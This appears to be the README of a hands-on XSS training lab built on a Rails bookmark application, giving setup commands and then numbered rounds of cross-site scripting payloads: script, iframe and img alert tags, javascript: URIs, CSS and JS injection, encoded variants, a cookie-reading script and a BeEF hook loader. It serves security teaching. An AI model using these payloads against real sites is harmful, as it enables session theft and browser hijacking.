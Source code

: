 # XSS hands-on with Rails application

## Install

- Install dependencies

```console
bundle install
```

- Create SQLite database

```console
rails db:migrate
```

# Run

```console
rails server
```

## Hack


### Round 1: insert HTML tags

- Add a bookmark with html tags in comment:

- Title: 

```
OWASP Cheat Sheet Series
```

- Link

```
https://cheatsheetseries.owasp.org
```

- Comment

```
The <b>OWASP Cheat Sheet Series</b> was created to provide a concise collection of high value information on specific application security topics.
```


### Round 2: using HTML Tag

In bookmark comment:

```
<script>alert(`XSS`)</script>
```

```
<iframe src="javascript:alert('XSS');">
```

```
<img src=1 href=1 onerror="javascript:alert('XSS')"></img>
```

Note: using simple HTML tags was too easy! Now, use different contexts for XSS execution.

### Round 3: using JS URI

In bookmark link field:

```
javascript:alert('XSS')
```


### Round 4: using CSS

In bookmark color fiels:

```
red; background: url(https://http.cat/200)
```

### Round 5: using javascript

Add a bookmark with the following order id:

```
22; alert(1);
```


### Round 6: Encoded XSS

- HTML Decimal entity

````
<img src=x onerror="&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#88&#83&#83&#39&#41">
````

- UTF16

````
<img src="x" onerror="\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074:\u0061\u006C\u0065\u0072\u0074('XSS')">
````



### Round 6: Steal Cookie :fearful:

Add a bookmark with script tags in comment to get session cookie

```
<script>alert(document.cookie)</script>
```

### Round 7: take controle with Beef :scream:

```
<img src=1 href=1 onerror="javascript: (function () { var url = 'http://127.0.0.1:4000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();" />
```